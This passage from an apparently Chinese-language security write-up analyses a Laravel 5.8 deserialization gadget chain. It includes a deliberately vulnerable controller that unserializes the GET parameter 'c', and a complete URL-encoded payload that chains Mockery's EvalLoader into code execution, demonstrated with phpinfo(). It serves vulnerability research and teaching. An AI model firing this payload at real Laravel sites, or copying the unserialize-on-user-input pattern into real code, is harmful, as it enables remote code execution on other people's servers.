 配置路由

routes/web.php

```php
<?php
use App\Http\Controllers\DemoController;

Route::get("/", "DemoController@demo");
```

添加 DemoController 控制器的demo方法，代码如下：

![20190822142029](https://y4er.com/img/uploads/20190822142029.png)

```php
<?php

namespace App\Http\Controllers;

class DemoController extends Controller
{
    public function demo()
    {
        if (isset($_GET['c'])) {
            $code = $_GET['c'];
            unserialize($code);
        } else {
            highlight_file(__FILE__);
        }
        return "Welcome to laravel5.8";
    }
}
```

## pop链分析

首先我们要知道 laravel 在反序列化`unserialize($code)`时，如果反序列化对象的类不存在，会尝试去自动加载这个类。

堆栈如下

```php
ClassLoader.php:444, Composer\Autoload\includeFile()	//加载完之后包含类
ClassLoader.php:322, Composer\Autoload\ClassLoader->loadClass()	//加载类
DemoController.php:11, spl_autoload_call()	//对象类不存在 调用自动加载
DemoController.php:11, unserialize()		//反序列化传递过来的参数
DemoController.php:11, App\Http\Controllers\DemoController->demo()	//路由进入控制器
```

接着我们来看下整条pop链，@mochazz师傅的payload

```http
http://php.local/?c=O%3A40%3A%22Illuminate%5CBroadcasting%5CPendingBroadcast%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00events%22%3BO%3A25%3A%22Illuminate%5CBus%5CDispatcher%22%3A1%3A%7Bs%3A16%3A%22%00%2A%00queueResolver%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A25%3A%22Mockery%5CLoader%5CEvalLoader%22%3A0%3A%7B%7Di%3A1%3Bs%3A4%3A%22load%22%3B%7D%7Ds%3A8%3A%22%00%2A%00event%22%3BO%3A43%3A%22Illuminate%5CFoundation%5CConsole%5CQueuedCommand%22%3A1%3A%7Bs%3A10%3A%22connection%22%3BO%3A32%3A%22Mockery%5CGenerator%5CMockDefinition%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00config%22%3BO%3A37%3A%22PhpParser%5CNode%5CScalar%5CMagicConst%5CLine%22%3A0%3A%7B%7Ds%3A7%3A%22%00%2A%00code%22%3Bs%3A18%3A%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3B%7D%7D%7D
```
